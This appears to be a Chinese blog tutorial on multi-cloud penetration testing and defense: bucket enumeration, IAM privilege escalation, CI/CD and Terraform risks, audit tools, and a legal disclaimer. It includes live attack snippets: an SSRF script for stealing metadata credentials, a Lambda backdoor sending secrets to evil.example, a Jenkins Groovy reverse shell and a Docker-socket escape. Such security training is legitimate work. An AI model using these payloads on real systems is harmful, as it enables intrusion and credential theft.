


## 1. 概述

企业大规模上云后，传统网络边界消失，攻击面从物理设备扩展至对象存储、Serverless 函数、CI/CD 流水线和基础设施即代码（IaC）。本文系统梳理多云安全测试方法论，覆盖资产发现、存储桶爆破、元数据利用、IAM 权限枚举、Serverless 攻击、CI/CD 流水线攻击及 Terraform 状态文件风险，并介绍 cloudlist、ScoutSuite、Prowler 等核心工具。



## 2. 多云资产发现

### 2.1 云厂商资产范围界定

确定目标使用的云厂商和资产范围是渗透测试的第一步。常用线索：

| 线索来源 | 方法 |
|---------|------|
| DNS 记录 | 查找 CNAME 指向 `*.amazonaws.com`、`*.blob.core.windows.net`、`*.oss-cn-*.aliyuncs.com` |
| 证书透明度日志 | crt.sh 查询子域名 |
| 前端源码 | JS 文件中的存储桶 URL、API Gateway 端点 |

**cloudlist 多云资产聚合（ProjectDiscovery）：**

```bash
go install github.com/projectdiscovery/cloudlist/cmd/cloudlist@latest
# 配置 ~/.config/cloudlist/config.yaml，支持 AWS/GCP/Azure/阿里云/Terraform Cloud
cloudlist -config ~/.config/cloudlist/config.yaml
cloudlist -host                    # 仅输出主机名
```

### 2.2 被动收集

```bash
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sort -u
puredns bruteforce cloud_wordlist.txt example.com
```

**云关键字词表：** `s3, oss, blob, storage, cdn, api, lambda, dev, staging, prod, test, backup, static, upload`

## 3. 对象存储安全测试

### 3.1 S3 / OSS / Blob 桶枚举与爆破

对象存储是最常见的数据泄露源。AWS S3、阿里云 OSS、Azure Blob、GCP Cloud Storage 命名规则相似但 API 端点不同。

```bash
# 匿名探测与 ACL 审计
aws s3 ls s3://target-dev --no-sign-request
aws s3api get-bucket-acl --bucket target-backup --no-sign-request
aws s3api get-bucket-policy --bucket target-assets --no-sign-request
aws s3 cp test.txt s3://target-upload --no-sign-request      # 测试匿名写入

# s3scanner 批量扫描
python3 s3scanner.py --bucket-file wordlist.txt

# 阿里云 OSS / Azure Blob / GCP
curl -I "https://target-backup.oss-cn-hangzhou.aliyuncs.com"
curl -I "https://target.blob.core.windows.net/backup"
curl -I "https://storage.googleapis.com/target-public"
```

### 3.2 ACL 与策略审计

即使桶不可公开列出（ListObjects），也可能存在读写权限错误。

**高危特征：** `Principal: "*"` 出现在策略中；`Effect: "Allow"` + `s3:PutObject`；ACL 设为 `AllUsers` 组；OSS 读写权限设为公共。

### 3.3 跨云元数据利用

当应用存在 SSRF 漏洞时，可利用云实例元数据服务（IMDS）获取临时凭证：

| 云厂商 | 元数据端点 | 关键路径 |
|-------|----------|---------|
| AWS | `169.254.169.254` | `/latest/meta-data/iam/security-credentials/<role>` |
| 阿里云 | `100.100.100.200` | `/latest/meta-data/ram/security-credentials/<role>` |
| Azure | `169.254.169.254` | `/metadata/identity/oauth2/token?resource=https://management.azure.com/` |
| GCP | `metadata.google.internal` | `/computeMetadata/v1/instance/service-accounts/default/token` |

利用代码示例：

```python
import requests

def ssrf_to_metadata(endpoint):
    targets = [
        "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
        "http://169.254.169.254/latest/user-data/",
    ]
    for t in targets:
        r = requests.get(endpoint, params={"url": t}, timeout=5)
        if r.status_code == 200 and "AccessKeyId" in r.text:
            print(f"[+] 凭证泄露: {r.text[:300]}")
```

## 4. IAM 权限枚举与提权分析

### 4.1 权限链攻击

IAM 核心风险在于权限链（Permission Chaining）导致的未授权提权：

```bash
# 身份确认
aws sts get-caller-identity

# 枚举用户、角色与策略
aws iam list-users
aws iam list-roles
aws iam list-attached-user-policies --user-name <user>

# 策略模拟评估
aws iam simulate-principal-policy \
    --policy-source-arn arn:aws:iam::123456789:user/test \
    --action-names s3:GetObject ec2:RunInstances
```

**危险权限组合与攻击路径：**

| 权限1 | 权限2 | 攻击路径 |
|------|------|---------|
| `iam:PassRole` | `ec2:RunInstances` | 启动 EC2 绑定高权限角色，登录后窃取凭证 |
| `iam:PutRolePolicy` | `sts:AssumeRole` | 为角色附加管理员策略后假定 |
| `iam:CreateLoginProfile` | — | 为已有 IAM 用户创建控制台登录密码 |
| `lambda:UpdateFunctionCode` | — | 修改现有 Lambda 代码注入后门 |
| `iam:PassRole` | `lambda:CreateFunction` | 创建 Lambda 赋予管理员角色 |

### 4.2 工具链

```bash
# enumerate-iam — 枚举当前凭证的可用 API 列表
python enumerate-iam.py --access-key AKIA... --secret-key ...

# Pacu — AWS 渗透测试框架
pacu
> import_keys <profile>
> run iam__enum_permissions
> run iam__privesc_scan

# pmapper — IAM 权限图分析与提权路径可视化
pmapper graph --create
pmapper analysis --output-type text
pmapper visualize --filetype png
```

## 5. Serverless 与计算服务安全

### 5.1 无服务器函数攻击面

- **事件源注入**：通过 S3 事件、API Gateway 请求体注入恶意载荷
- **依赖供应链攻击**：第三方库漏洞导致远程控制
- **环境变量泄露**：数据库密码、API 密钥硬编码在环境变量中
- **函数权限过大**：执行角色具有 `s3:*` 或 `dynamodb:*` 权限

**Lambda 后门注入：**

```python
import json, os, requests

def lambda_handler(event, context):
    secrets = {k: v for k, v in os.environ.items()
               if any(x in k.upper() for x in ["KEY", "SECRET", "TOKEN", "PASS", "DB"])}
    try:
        requests.post("https://evil.example/collect", json={"env": secrets}, timeout=3)
    except:
        pass
    return {"statusCode": 200, "body": "ok"}
```

### 5.2 容器与 ECS 逃逸

```bash
# 检测 Docker Socket 挂载
ls -la /var/run/docker.sock

# Docker Socket 利用逃逸
docker -H unix:///var/run/docker.sock run -it --privileged \
    -v /:/host alpine chroot /host bash

# Kubenetes Service Account 令牌利用
cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) \
    --server=https://kubernetes.default.svc --insecure-skip-tls-verify \
    get pods --all-namespaces
```

## 6. CI/CD 流水线与 IaC 安全

### 6.1 CI/CD 管道攻击链

GitHub Actions、GitLab CI、Jenkins 是高价值目标：

- **公开仓库 Workflow 审查** —— `.github/workflows/` 中可能泄露内部服务地址
- **PR 触发 CI** —— fork 仓库触发 CI 可能暴露 Secrets 给外部代码
- **Jenkins 未授权** —— `/script` 端点执行 Groovy 获取 Shell

**Jenkins Groovy 反弹 Shell：**

```groovy
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = "bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'".execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
```

### 6.2 Terraform 状态文件风险

`terraform.tfstate` 常含明文密钥、数据库密码。常见泄露途径：

- 将 `.tfstate` 提交到公开 Git 仓库
- S3 后端桶公开可读
- CI/CD 日志打印状态文件内容

```json
{
  "resources": [{
    "type": "aws_db_instance",
    "instances": [{
      "attributes": {
        "password": "SuperSecretDBPass123!",
        "endpoint": "rds-target.us-east-1.amazonaws.com"
      }
    }]
  }]
}
```

```bash
# GitHub 搜索: filename:terraform.tfstate NOT "example"
trufflehog git https://github.com/target/repo.git --json
tfsec .                            # Terraform 静态安全扫描
checkov -d ./terraform/            # IaC 合规扫描
```

## 7. 核心安全工具

### 7.1 ScoutSuite —— 多云安全审计（NCC Group）

支持 AWS、Azure、GCP、阿里云、Oracle Cloud，输出 HTML 报告：

```bash
pip install scoutsuite
scout aws --access-key-id AKIA... --secret-access-key ... --report-name aws-report
scout azure --cli --report-name azure-report
scout gcp --user-account --report-name gcp-report
```

### 7.2 Prowler —— AWS 安全评估与合规

覆盖 CIS Benchmark、GDPR、HIPAA、PCI-DSS 等合规框架：

```bash
pip install prowler
prowler aws --compliance cis_1.5_aws
prowler aws --services s3 ec2 rds
prowler aws --output-formats html
```

**关键检查项：** `s3_bucket_public_access`、`iam_root_user_no_access_keys`、`cloudtrail_multi_region_enabled`、`rds_instance_no_public_access`。

### 7.3 工具矩阵

| 工具 | 覆盖范围 | 核心能力 |
|------|---------|---------|
| **cloudlist** | 多云 | 资产发现与聚合 |
| **ScoutSuite** | AWS/Azure/GCP/阿里云 | 安全审计与合规报告 |
| **Prowler** | AWS | CIS 合规 + 安全检查 |
| **Pacu** | AWS | 渗透测试框架与利用 |
| **pmapper** | AWS | IAM 权限图分析与提权路径 |
| **s3scanner** | AWS | S3 桶枚举与权限探测 |
| **enumerate-iam** | 多云 | API 权限模糊测试 |
| **tfsec** | Terraform | IaC 静态安全扫描 |
| **checkov** | Terraform/CF/K8s | IaC 合规检查 |
| **trufflehog** | 通用 | Git 密钥扫描 |

## 8. 综合测试流程



**标准测试步骤：**

1. **资产测绘** —— cloudlist + crt.sh + DNS 暴力破解确定范围
2. **存储桶测试** —— s3scanner 批量枚举 + 手动验证 ACL 与策略
3. **IAM 分析** —— enumerate-iam → pmapper 权限图 → 提权路径识别
4. **计算层攻击** —— SSRF → 元数据利用 → 凭证获取 → 横向移动
5. **CI/CD 审计** —— 审查 Workflow → 扫描 Terraform State → 密钥检测
6. **合规检查** —— Prowler CIS 基准 + ScoutSuite 审计报告
7. **报告与修复** —— 按严重程度排序输出发现与修复建议

## 9. 防御建议

- **启用 IMDSv2**，禁用 IMDSv1 防止无认证元数据访问
- **实施最小权限原则**，定期用 pmapper 审查 IAM 权限链
- **S3 Block Public Access** 账户级全局启用
- **SCP** 限制 `iam:PassRole` 等危险权限使用范围
- **Terraform State 远程加密存储**，S3 后端不公开
- **CI/CD 密钥使用 Secrets 管理器**，禁止环境变量明文传递
- **启用 CloudTrail / OSS 访问日志** 输出至安全账号集中分析

## 10. 免责声明

> **声明：** 本文所述技术仅供安全研究、授权渗透测试和安全评估使用。任何未经授权对他人系统进行的测试或攻击行为均属违法，违反《中华人民共和国网络安全法》《中华人民共和国数据安全法》及《刑法》第 285 条、第 286 条相关规定。作者不对读者因滥用本文内容而导致的任何法律后果承担责任。在使用本文方法前，请确保已获得目标系统所有者的明确书面授权。

---

*本文首发于个人博客，转载请注明出处。*
